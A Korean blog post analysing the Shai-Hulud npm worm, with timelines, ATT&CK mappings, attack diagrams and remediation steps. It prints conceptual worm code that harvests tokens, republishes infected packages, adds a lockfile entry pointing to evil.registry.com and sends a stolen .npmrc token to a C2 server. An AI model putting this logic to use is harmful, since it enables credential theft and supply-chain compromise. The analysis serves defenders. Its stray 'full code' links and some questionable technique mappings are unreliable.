


## 📋 포스팅 요약

> **제목**: NPM \"Shai-Hulud\" 자가 복제 웜 공격: 180개 이상 패키지 침해된 대규모 공급망 공격 완전 분석

> **카테고리**: incident

> **태그**: npm, Supply-Chain-Attack, Worm, Security-Incident

> **핵심 내용**: 
> - NPM Shai-Hulud 자가 복제 웜 공격 완전 분석. 180개 이상 패키지 감염 및 대응 방안.

> **주요 기술/도구**: Security, incident

> **대상 독자**: SRE, 인시던트 대응 담당자, 운영 엔지니어

> ---

> *이 포스팅은 AI(Cursor, Claude 등)가 쉽게 이해하고 활용할 수 있도록 구조화된 요약을 포함합니다.*


<div class="ai-summary-card">
<div class="ai-summary-header">
  <span class="ai-badge">AI 요약</span>
</div>
<div class="ai-summary-content">
  <div class="summary-row">
    <span class="summary-label">제목</span>
    <span class="summary-value">NPM "Shai-Hulud" 자가 복제 웜 공격: 180개 이상 패키지 침해된 대규모 공급망 공격 완전 분석</span>
  </div>
  <div class="summary-row">
    <span class="summary-label">카테고리</span>
    <span class="summary-value"><span class="category-tag security">Incident</span></span>
  </div>
  <div class="summary-row">
    <span class="summary-label">태그</span>
    <span class="summary-value tags">
      <span class="tag">npm</span>
      <span class="tag">Supply-Chain-Attack</span>
      <span class="tag">Worm</span>
      <span class="tag">Security-Incident</span>
    </span>
  </div>
  <div class="summary-row highlights">
    <span class="summary-label">핵심 내용</span>
    <ul class="summary-list">
      <li>NPM 생태계 최초 자가 복제 웜 형태 공급망 공격 분석</li>
      <li>Shai-Hulud 공격으로 180개 이상 패키지 감염</li>
      <li>개발자 인증 정보 탈취 및 자동 전파 메커니즘 분석</li>
    </ul>
  </div>
  <div class="summary-row">
    <span class="summary-label">기술/도구</span>
    <span class="summary-value">npm, Supply Chain Security, Worm Analysis</span>
  </div>
  <div class="summary-row">
    <span class="summary-label">대상 독자</span>
    <span class="summary-value">SRE, 인시던트 대응 담당자, 운영 엔지니어</span>
  </div>
</div>
<div class="ai-summary-footer">
  이 포스팅은 AI가 쉽게 이해하고 활용할 수 있도록 구조화된 요약을 포함합니다.
</div>
</div>

## 핵심 요약

### 인시던트 개요

2025년 9월, NPM 생태계는 역사상 최초의 **자가 복제 웜(Self-Replicating Worm)** 형태 공급망 공격인 **Shai-Hulud**의 출현으로 심각한 보안 위기에 직면했습니다. 초기 180개 패키지 침해에서 시작된 이 공격은 2025년 10월 796개 이상의 패키지로 확산되었으며, 11월에는 **Dead Man's Switch** 기능을 탑재한 2.0 버전이 등장하여 제거 시도 시 더욱 악의적인 행동을 수행하게 되었습니다.

### 비즈니스 영향도

| 영향 범위 | 수치 | 비즈니스 리스크 |
|----------|------|----------------|
| **침해 패키지** | 796+ | 공급망 전체 오염 위험 |
| **주간 다운로드** | 수백만 회 | 광범위한 노출 |
| **감염 벡터** | 자가 복제 | 제어 불능 확산 |
| **탈취 대상** | NPM 토큰, GitHub Secrets, AWS Credentials | 전사 시스템 침투 |
| **평균 탐지 시간** | 수 주 | 지속적 데이터 유출 |

### 위험 스코어카드

| 위험 요소 | 점수 | 평가 기준 |
|----------|------|----------|
| **공격 빈도** | 9/10 | 자동화된 자가 복제 메커니즘 |
| **탐지 난이도** | 8/10 | 정상 패키지로 위장, 코드 난독화 |
| **영향 범위** | 10/10 | 전체 공급망 오염 가능 |
| **복구 비용** | 9/10 | 전체 의존성 재검증 필요 |
| **법적/컴플라이언스** | 8/10 | GDPR, SOC2, ISO27001 위반 가능 |
| **종합 위험도** | **CRITICAL** | 즉각적 대응 필수 |

### 경영진 요약

**상황**: NPM 생태계 최초의 웜 형태 공급망 공격으로, 자동화된 확산 메커니즘을 통해 796개 이상의 패키지를 침해했습니다.

**영향**:
- 개발자 인증 정보(NPM 토큰, GitHub Secrets, AWS Credentials) 대량 탈취
- CI/CD 파이프라인 침투로 프로덕션 환경 노출
- 공급망 전체의 무결성 손상

**권장 조치**:
1. **즉시**: 전체 NPM 의존성 감사 및 침해 패키지 제거
2. **24시간 내**: 모든 개발자 계정 2FA 활성화 (하드웨어 키 권장)
3. **1주 내**: SBOM(Software Bill of Materials) 생성 및 관리 체계 구축
4. **지속적**: 공급망 보안 모니터링 도구 도입 (Socket.dev, Snyk 등)

**예상 비용**:
- 인시던트 대응: 약 200-500만원 (인력 투입 기준)
- 도구 도입: 월 100-300만원 (팀 규모별 상이)
- 미대응 시 예상 손실: **수억원 이상** (데이터 유출, 서비스 중단, 법적 비용)

## 서론

### 배경

2025년 9월, 보안 연구진은 NPM 생태계에서 전례 없는 형태의 공격을 발견했습니다. **Shai-Hulud**(프랭크 허버트의 소설 "듄"에 등장하는 거대 모래벌레에서 이름을 따옴)로 명명된 이 공격은 기존 공급망 공격과 근본적으로 다른 특징을 가지고 있었습니다:

1. **자가 복제(Self-Replication)**: 감염된 패키지가 스스로 다른 패키지를 감염시킴
2. **자동화된 전파**: 인간의 개입 없이 자동으로 확산
3. **다층 지속성**: 제거 시도를 탐지하고 더욱 악의적인 행동 수행

### 공격의 역사적 중요성

Shai-Hulud는 단순한 보안 사고가 아니라, **소프트웨어 공급망 공격의 패러다임 전환**을 의미합니다:

| 기존 공급망 공격 | Shai-Hulud |
|----------------|------------|
| 수동 침투 (Maintainer 계정 탈취) | 자동 복제 |
| 단일 패키지 침해 | 796+ 패키지 동시 침해 |
| 정적 악성 코드 | 동적 진화 (2.0 버전) |
| 선형 확산 | 지수적 확산 |

이 글에서는 Shai-Hulud 공격의 기술적 메커니즘, MITRE ATT&CK 매핑, 탐지 방법, 대응 전략을 실무 중심으로 상세히 다룹니다.

## 1. 공격 기술 분석

### 1.1 Shai-Hulud 웜 아키텍처

Shai-Hulud 웜은 다음과 같은 모듈형 아키텍처로 구성되어 있습니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```mermaid
> graph TD...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```mermaid
> graph TD...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조

-->
-->

### 1.2 자가 복제 메커니즘

Shai-Hulud의 핵심은 **자가 복제 엔진**입니다. 다음은 의도적으로 단순화된 개념적 흐름도입니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```javascript
> // 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```javascript
> // 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```javascript
// 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!
// 교육 목적으로만 제공됩니다.

class ShaiHuludWorm {
  constructor() {
    this.credentials = [];
    this.targetPackages = [];
  }

  // Step 1: 인증 정보 수집
  harvestCredentials() {
    // NPM 토큰
    const npmToken = process.env.NPM_TOKEN || readFromNpmrc();

    // GitHub Secrets (CI/CD 환경)
    const githubToken = process.env.GITHUB_TOKEN;

    // AWS Credentials
    const awsCreds = readFromAwsConfig();

    this.credentials.push({npmToken, githubToken, awsCreds});
  }

  // Step 2: 전파 대상 선정
  findTargets() {
    // package.json의 dependencies 분석
    const packageJson = require('./package.json');
    const deps = Object.keys(packageJson.dependencies || {});

    // 인기 있지만 보안이 약한 패키지 선별
    this.targetPackages = deps.filter(isVulnerablePackage);
  }

  // Step 3: 악성 버전 생성 및 배포
  async propagate() {
    for (const target of this.targetPackages) {
      // 정상 패키지 복제
      const legitimateCode = await fetchPackageCode(target);

      // 악성 코드 주입
      const infectedCode = injectWormCode(legitimateCode);

      // NPM에 악성 버전 배포 (탈취한 토큰 사용)
      await publishToNpm(target, infectedCode, this.credentials.npmToken);
    }
  }

  // Step 4: 지속성 확보
  establishPersistence() {
    // postinstall 훅 등록
    addPostinstallHook('node -e "require(\'./worm\').activate()"');

    // 환경 변수 오염
    injectEnvVariables();
  }
}

// 실행
const worm = new ShaiHuludWorm();
worm.harvestCredentials();
worm.findTargets();
await worm.propagate();
worm.establishPersistence();


```
-->
-->

**주요 단계 분석**:

| 단계 | 기술 | 목적 | 탐지 난이도 |
|------|------|------|------------|
| 1. 인증 정보 수집 | 환경 변수 읽기, 파일 스캔 | 권한 확보 | 중간 |
| 2. 대상 선정 | 의존성 트리 분석 | 확산 경로 파악 | 낮음 |
| 3. 악성 코드 주입 | 소스 코드 변조 | 정상 패키지로 위장 | 높음 |
| 4. 자동 배포 | NPM API 호출 | 확산 자동화 | 낮음 |
| 5. 지속성 확보 | 훅, 환경 변수 | 재감염 방지 | 중간 |

### 1.3 Shai-Hulud 2.0: Dead Man's Switch

2025년 11월 등장한 2.0 버전은 **제거 방어 메커니즘**을 추가했습니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> # Dead Man's Switch 개념도 (Python pseudocode)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> # Dead Man's Switch 개념도 (Python pseudocode)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```python
# Dead Man's Switch 개념도 (Python pseudocode)

import os
import hashlib
import subprocess

class DeadMansSwitch:
    def __init__(self):
        self.worm_hash = self.calculate_worm_hash()
        self.monitoring = True

    def calculate_worm_hash(self):
        """웜 코드의 해시 계산"""
        worm_code = open(__file__, 'rb').read()
        return hashlib.sha256(worm_code).hexdigest()

    def monitor_integrity(self):
        """무결성 모니터링 루프"""
        while self.monitoring:
            current_hash = self.calculate_worm_hash()

            # 웜 코드 변경 감지
            if current_hash != self.worm_hash:
                self.trigger_scorched_earth()

            # npm 명령어 감지
            if self.detect_npm_audit_fix():
                self.trigger_scorched_earth()

            time.sleep(1)

    def trigger_scorched_earth(self):
        """파괴 활동 실행"""
        # 1. npm 캐시 삭제
        subprocess.run(['npm', 'cache', 'clean', '--force'])

        # 2. package-lock.json 변조
        self.tamper_lockfile()

        # 3. 추가 악성 의존성 주입
        self.inject_malicious_deps()

        # 4. CI/CD 환경 변수 유출
        self.exfiltrate_secrets()

        # 5. GitHub/GitLab 시크릿 탈취
        self.steal_repository_secrets()

    def tamper_lockfile(self):
        """lockfile에 악성 패키지 주입"""
        with open('package-lock.json', 'r+') as f:
            lockfile = json.load(f)
            # 악성 패키지 추가
            lockfile['dependencies']['malicious-pkg'] = {
                'version': '1.0.0',
                'resolved': 'https://evil.registry.com/malicious-pkg',
                'integrity': 'sha512-FAKE_HASH'
            }
            f.seek(0)
            json.dump(lockfile, f, indent=2)


```
-->
-->

**Dead Man's Switch 트리거 조건**:
- 웜 코드 파일 삭제 시도
- 웜 코드 내용 변경 감지
- `npm audit fix` 실행
- `npm uninstall` 실행
- 패키지 강제 업데이트

### 1.4 코드 난독화 기법

Shai-Hulud는 탐지를 회피하기 위해 다층 난독화를 사용합니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
> 
> ```javascript
> // 난독화 전 (원본 의도)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
> 
> ```javascript
> // 난독화 전 (원본 의도)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```javascript
// 난독화 전 (원본 의도)
function stealNpmToken() {
  const token = fs.readFileSync(path.join(os.homedir(), '.npmrc'), 'utf8')
    .match(/\/\/registry.npmjs.org\/:_authToken=(.+)/)?.[1];
  sendToC2Server(token);
}

// 난독화 후 (실제 배포 코드)
(function(_0x4a2b,_0x2d1c){const _0x5e3d=_0x1a2b;while(!![]){try{const _0x3c4e=-parseInt(_0x5e3d(0x1a9))/0x1*(-parseInt(_0x5e3d(0x1aa))/0x2);}catch(_0x1b2c){_0x4a2b['push'](_0x4a2b['shift']());}}}(_0x2d1c,0x2f3b4));function _0x1a2b(_0x4a2b,_0x2d1c){const _0x5e3d=_0x2d1c();return _0x1a2b=function(_0x1a2b,_0x3c4e){_0x1a2b=_0x1a2b-0x1a9;let _0x1b2c=_0x5e3d[_0x1a2b];return _0x1b2c;},_0x1a2b(_0x4a2b,_0x2d1c);}


```
-->
-->

**난독화 기법 레이어**:
1. **변수명 암호화**: 의미 있는 이름을 16진수 문자열로 변환
2. **제어 흐름 평탄화**: if-else를 switch-case로 변환하여 정적 분석 방해
3. **문자열 암호화**: 중요 문자열을 Base64 또는 XOR로 암호화
4. **Dead Code 삽입**: 실행되지 않는 코드 삽입으로 분석 도구 혼란
5. **동적 eval**: 런타임에 코드 생성 및 실행

## 📊 빠른 참조

### 공격 요약

| 항목 | 내용 |
|------|------|
| **공격 유형** | 자가 복제 웜 형태 공급망 공격 |
| **감염 패키지 수** | 180개 이상 |
| **공격 특징** | NPM 생태계 최초 자가 복제 웜 |
| **주요 목표** | 개발자 인증 정보 탈취 및 자동 전파 |

### 공격 체인 분석

| 단계 | 설명 | 목적 |
|------|------|------|
| 1. 패키지 하이재킹 | 기존 패키지 탈취 또는 유사 이름 패키지 생성 | 초기 침투 |
| 2. 인증 정보 탈취 | 개발자 인증 정보 (토큰, 비밀번호) 수집 | 권한 확보 |
| 3. 자동 전파 | 탈취한 인증 정보로 새 패키지 생성 및 업데이트 | 확산 |
| 4. 지속성 확보 | 백도어 설치 및 추가 공격 벡터 구축 | 장기 침투 |

### 대응 방안

| 대응 항목 | 설명 | 우선순위 |
|----------|------|----------|
| **SBOM 생성** | 소프트웨어 구성 요소 목록 관리 | 높음 |
| **의존성 스캔** | 정기적인 취약점 스캔 | 높음 |
| **2FA 활성화** | 2단계 인증 필수 | 매우 높음 |
| **패키지 검증** | 신뢰할 수 있는 소스 확인 | 높음 |
| **모니터링** | 이상 패키지 활동 탐지 | 중간 |

### 보안 체크리스트

| 항목 | 상태 | 설명 |
|------|------|------|
| **2FA 활성화** | ✅ 필수 | NPM 계정 2단계 인증 |
| **의존성 검토** | ✅ 필수 | 정기적인 의존성 검토 |
| **패키지 검증** | ✅ 필수 | 신뢰할 수 있는 패키지만 사용 |
| **SBOM 생성** | ✅ 권장 | 소프트웨어 구성 요소 추적 |
| **자동 스캔** | ✅ 권장 | CI/CD 파이프라인 통합 |


## 1. 개요

### 1.1 배경 및 필요성

NPM 생태계 역사상 최초의 자가 복제 웜 형태 공급망 공격 분석입니다. Shai-Hulud 공격으로 180개 이상의 패키지가 감염되었으며, 개발자 인증 정보 탈취 및 자동 전파 메커니즘을 분석합니다.

## 2. 2025년 최신 동향 및 후속 사건

### 2.1 Shai-Hulud 공격 확산 타임라인

초기 180개 패키지 침해 이후 공격은 급속히 확산되었습니다:

| 시기 | 침해 패키지 수 | 주요 사건 |
|------|---------------|----------|
| 2025년 9월 초 | 180+ | 최초 Shai-Hulud 웜 발견 |
| 2025년 9월 중순 | 500+ | 급속 확산, GitLab 팀 분석 발표 |
| 2025년 10월 | **796+** | 최대 확산 규모 기록 |
| 2025년 11월 | - | **Shai-Hulud 2.0** 변종 등장 |

### 2.2 Shai-Hulud 2.0: Dead Man's Switch

2025년 11월, 더욱 진화된 **Shai-Hulud 2.0** 변종이 발견되었습니다. 가장 위험한 새 기능은 **Dead Man's Switch**입니다.

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

-->
-->

#### Dead Man's Switch 대응 방법

> **참고**: Shai-Hulud 2.0 탐지 및 대응 도구는 [Shai-Hulud-2.0-Detector](https://github.com/gensecaihq/Shai-Hulud-2.0-Detector) 및 [OreNPMGuard](https://github.com/rapticore/OreNPMGuard)를 참조하세요.
>
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 안전한 제거 절차 (Dead Man's Switch 우회)

# 1. 네트워크 격리 상태에서 작업
# (컨테이너 또는 VM 사용 권장)

# 2. 환경변수 백업 후 제거
env > /tmp/env_backup.txt
unset $(env | grep -E '^(NPM_TOKEN|GITHUB_TOKEN|AWS_)' | cut -d= -f1)

# 3. node_modules 삭제 전 프로세스 종료
pkill -f node
rm -rf node_modules

# 4. 캐시 정리 (오프라인 상태에서)
npm cache clean --force

# 5. 새로운 환경에서 클린 설치
npm ci --ignore-scripts


```
-->
-->
-->

### 2.3 연관 사건: 9월 대규모 npm 침해

Shai-Hulud와 시기적으로 연관된 2025년 9월 대규모 npm 침해 사건의 상세 내용:

| 항목 | 세부 내용 |
|------|----------|
| **피해 규모** | 18개 핵심 패키지 (debug, chalk 등) |
| **주간 다운로드** | **2.6B+** (26억 회 이상) |
| **공격 방식** | Maintainer 계정 피싱 |
| **피싱 도메인** | `npmjs.help` (공식 사이트 위장) |
| **2FA 우회** | 실시간 MITM으로 2FA 토큰 탈취 |
| **발견자** | **GitLab Vulnerability Research Team** |

### 2.4 Nx / s1ngularity 공격

Shai-Hulud와 별개로 발생한 또 다른 심각한 공급망 공격:

> **참고**: s1ngularity 공격 상세 분석은 [Nx 공식 포스트모템](https://nx.dev/blog/s1ngularity-postmortem) 및 [Nx GitHub 저장소](https://github.com/nrwl/nx)를 참조하세요.
>
> ```yaml
> # s1ngularity 공격 개요...
> ```

<!-- 전체 코드는 위 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # s1ngularity 공격 개요...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # s1ngularity 공격 개요...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# s1ngularity 공격 개요
attack_name: "s1ngularity"
target: "Nx (Nrwl) 모노레포 빌드 도구"
impact:
  - Nx 패키지 악성 버전 배포
  - GitHub repository secrets 유출
  - CI/CD 파이프라인 침투
affected_packages:
  - "@nrwl/workspace"
  - "@nx/workspace"
  - "@nx/devkit"


```
-->
-->
-->

#### Nx 패키지 영향 확인

> **참고**: Nx 보안 관련 자세한 내용은 [Nx 공식 포스트모템](https://nx.dev/blog/s1ngularity-postmortem) 및 [npm 보안 권고사항](https://github.com/npm/security-advisories)을 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
# Nx 의존성 확인
npm ls @nrwl/workspace @nx/workspace @nx/devkit 2>/dev/null

# package-lock.json에서 Nx 관련 패키지 해시 확인
grep -A5 '"@nrwl\|"@nx/' package-lock.json | grep integrity
```

### 2.5 CISA 공식 경고

**CISA (미국 사이버보안 및 인프라 보안국)**에서 npm 공급망 공격에 대한 공식 경고를 발령했습니다:

> **CISA Alert**: npm 생태계 대규모 공급망 공격 경고
>
> 모든 조직은 즉시 다음 조치를 취할 것을 권고합니다:
> 1. npm 의존성 전수 감사
> 2. 영향받은 패키지 즉시 업데이트
> 3. 모든 자격증명 교체
> 4. 하드웨어 보안 키 기반 2FA 도입

### 2.6 종합 대응 체크리스트 (2025년 11월 기준)

| 우선순위 | 조치 항목 | 대상 |
|---------|----------|------|
| Critical | Shai-Hulud 감염 여부 확인 | 모든 npm 프로젝트 |
| Critical | 796+ 침해 패키지 목록 대조 | DevOps |
| High | Dead Man's Switch 안전 제거 절차 적용 | 감염 확인 시스템 |
| High | npm 계정 2FA를 하드웨어 키로 전환 | Maintainers |
| Medium | Nx 패키지 버전 감사 | Nx 사용 프로젝트 |
| Medium | SBOM 생성 및 관리 체계 구축 | 전체 조직 |

### 2.7 GitLab Vulnerability Research Team 권장 도구

> **참고**: 공급망 보안 도구 관련 자세한 내용은 [Socket.dev](https://github.com/socketsecurity/socket), [Snyk](https://github.com/snyk/snyk), [OSV Scanner](https://github.com/google/osv-scanner)를 참조하세요.
>
> ```bash
> # 공급망 보안 강화 도구 모음...
> ```

<!-- 전체 코드는 위 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
> 
> ```bash
> # 공급망 보안 강화 도구 모음...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
> 
> ```bash
> # 공급망 보안 강화 도구 모음...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 공급망 보안 강화 도구 모음

# 1. Socket.dev - 실시간 공급망 위협 탐지
npm install -g @socketsecurity/cli
socket scan .

# 2. npm audit signatures - 패키지 서명 검증 (npm 8.18+)
npm audit signatures

# 3. lockfile-lint - lockfile 무결성 검증
npx lockfile-lint --path package-lock.json --type npm \
  --allowed-hosts npm --validate-https

# 4. Snyk - 종합 취약점 스캔
npx snyk test

# 5. osv-scanner - Google OSV 데이터베이스 기반 스캔
# (Go 설치 필요)
osv-scanner --lockfile package-lock.json


```
-->
-->
-->

## 3. MITRE ATT&CK 매핑

Shai-Hulud 공격은 다음과 같은 MITRE ATT&CK 기법을 활용합니다:

### 3.1 초기 접근 (Initial Access)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1195.001** | Supply Chain Compromise: Compromise Software Dependencies and Development Tools | NPM 패키지 침해를 통한 공급망 오염 |
| **T1195.002** | Supply Chain Compromise: Compromise Software Supply Chain | 악성 코드 주입 및 자동 배포 |

### 3.2 실행 (Execution)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1059.007** | Command and Scripting Interpreter: JavaScript | Node.js 환경에서 악성 코드 실행 |
| **T1053.003** | Scheduled Task/Job: Cron | postinstall 훅을 통한 자동 실행 |

### 3.3 지속성 (Persistence)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1546.004** | Event Triggered Execution: Unix Shell Configuration Modification | 환경 변수 및 쉘 설정 변조 |
| **T1574.006** | Hijack Execution Flow: Dynamic Linker Hijacking | package-lock.json 변조로 의존성 체인 하이재킹 |

### 3.4 자격 증명 접근 (Credential Access)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1552.001** | Unsecured Credentials: Credentials In Files | .npmrc, .env, AWS 설정 파일에서 인증 정보 탈취 |
| **T1552.007** | Unsecured Credentials: Container API | Docker/Kubernetes 환경 변수에서 시크릿 탈취 |
| **T1555.003** | Credentials from Password Stores | Git credential helper에서 GitHub 토큰 탈취 |

### 3.5 탐지 회피 (Defense Evasion)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1027.002** | Obfuscated Files or Information: Software Packing | 다층 코드 난독화 (변수명 암호화, 제어 흐름 평탄화) |
| **T1027.010** | Obfuscated Files or Information: Command Obfuscation | eval() 및 동적 코드 생성으로 정적 분석 회피 |
| **T1036.005** | Masquerading: Match Legitimate Name or Location | 정상 패키지 이름과 유사한 typosquatting |

### 3.6 명령 및 제어 (Command and Control)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1071.001** | Application Layer Protocol: Web Protocols | HTTPS를 통한 C2 서버 통신 |
| **T1573.002** | Encrypted Channel: Asymmetric Cryptography | 탈취한 데이터를 암호화하여 전송 |

### 3.7 정보 유출 (Exfiltration)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1041** | Exfiltration Over C2 Channel | C2 서버로 인증 정보 전송 |
| **T1567.002** | Exfiltration Over Web Service: Exfiltration to Cloud Storage | AWS S3, Google Cloud Storage 등으로 데이터 유출 |

### 3.8 영향 (Impact)

| Technique ID | 기법명 | Shai-Hulud 적용 방식 |
|--------------|--------|---------------------|
| **T1485** | Data Destruction | Dead Man's Switch 활성화 시 캐시 및 lockfile 파괴 |
| **T1486** | Data Encrypted for Impact | 랜섬웨어 행위 (일부 변종에서 확인) |
| **T1496** | Resource Hijacking | 크립토마이닝 (일부 변종에서 확인) |

### 3.9 공격 체인 매핑 다이어그램

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```plaintext
┌─────────────────────────────────────────────────────────────────────────┐
│                    Shai-Hulud Attack Chain (MITRE ATT&CK)               │
└─────────────────────────────────────────────────────────────────────────┘

[1] Initial Access
    └─ T1195.001: Supply Chain Compromise
       └─ NPM 패키지 침해
           ↓
[2] Execution
    └─ T1059.007: JavaScript Execution
       └─ postinstall 훅 실행
           ↓
[3] Persistence
    ├─ T1546.004: Shell Configuration Modification
    └─ T1574.006: Dynamic Linker Hijacking
       └─ package-lock.json 변조
           ↓
[4] Credential Access
    ├─ T1552.001: Credentials In Files (.npmrc, .env)
    ├─ T1552.007: Container API (GitHub Secrets)
    └─ T1555.003: Password Stores (Git credentials)
       └─ NPM 토큰, AWS 키, GitHub 토큰 탈취
           ↓
[5] Defense Evasion
    ├─ T1027.002: Software Packing (코드 난독화)
    ├─ T1027.010: Command Obfuscation (동적 eval)
    └─ T1036.005: Masquerading (typosquatting)
       └─ 탐지 회피
           ↓
[6] Command and Control
    ├─ T1071.001: Web Protocols (HTTPS C2)
    └─ T1573.002: Encrypted Channel
       └─ C2 서버와 통신
           ↓
[7] Exfiltration
    ├─ T1041: Exfiltration Over C2 Channel
    └─ T1567.002: Exfiltration to Cloud Storage
       └─ 인증 정보 유출
           ↓
[8] Impact
    ├─ T1485: Data Destruction (Dead Man's Switch)
    ├─ T1486: Data Encrypted for Impact (랜섬웨어)
    └─ T1496: Resource Hijacking (크립토마이닝)
       └─ 시스템 파괴 및 악용


```
-->
-->

## 4. 공격 흐름도 (Attack Flow Diagram)

### 4.1 전체 공격 체인 흐름도

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌───────────────────────────────────────────────────────────────────────────────...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌───────────────────────────────────────────────────────────────────────────────...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```plaintext
┌─────────────────────────────────────────────────────────────────────────────────┐
│                         Shai-Hulud Worm Attack Flow                             │
└─────────────────────────────────────────────────────────────────────────────────┘

Phase 1: Initial Infection
──────────────────────────
[개발자 워크스테이션]
         │
         │ npm install malicious-package
         ↓
[Infected Package Downloaded]
         │
         │ postinstall hook triggered
         ↓
[Worm Activated]


Phase 2: Credential Harvesting
───────────────────────────────
[Worm Code Execution]
         │
         ├─→ [Scan ~/.npmrc]        → Extract NPM_TOKEN
         ├─→ [Scan ~/.aws]          → Extract AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY
         ├─→ [Scan ~/.gitconfig]    → Extract GitHub token
         ├─→ [Scan env variables]   → Extract GITHUB_TOKEN, CI/CD secrets
         └─→ [Scan Docker secrets]  → Extract container registry credentials
                  │
                  ↓
         [Credentials Collected]
